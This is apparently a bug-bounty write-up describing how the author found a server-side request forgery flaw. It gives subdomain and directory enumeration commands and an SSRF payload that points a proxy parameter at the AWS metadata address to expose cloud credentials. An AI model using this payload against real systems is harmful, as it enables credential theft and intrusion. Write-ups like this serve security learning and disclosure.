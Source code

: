 # ***My First Case of SSRF Using Dirsearch 🐿️***

*1. I started by getting all the subdomains and directories of my target using Subfinder*
```
subfinder -d target.com | tee target.txt
python3 dirsearch.py -l target.txt --deep-recursive
```
*2. I found a URL that was like:*
```
targetconnect-dev.target.com/proxy.stream?origin=https://google.com
```
*3. I tried using an Out Of Band Interaction Tester (OOB) like BurpSuite Collaborator and it worked. I received a pingback.* <br>
*4. I now searched the parameter on Google and found a tweet where someone tried to use the AWS Metadata URL, so I tried using it and it worked.*<br>
```
/proxy.stream?origin=http://169.254.169.254/latest/metadata/
```
*I was able to view the AWS Metadata credentials.*
<br>&nbsp;

----
## ***Credit***
Based on [Mba-oji Chiagoziem](https://goziem.medium.com/my-first-case-of-ssrf-using-dirsearch-b916f0f1e94b)'s writeup.

----
## ***Support***
You can Follow [me](https://www.linkedin.com/in/bhavesh-pardhi-/) on LinkedIn or
<br><br>[![Buy Me a Coffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-Support-orange?style=for-the-badge&logo=buy-me-a-coffee)](https://www.buymeacoffee.com/bhaveshpardhi)

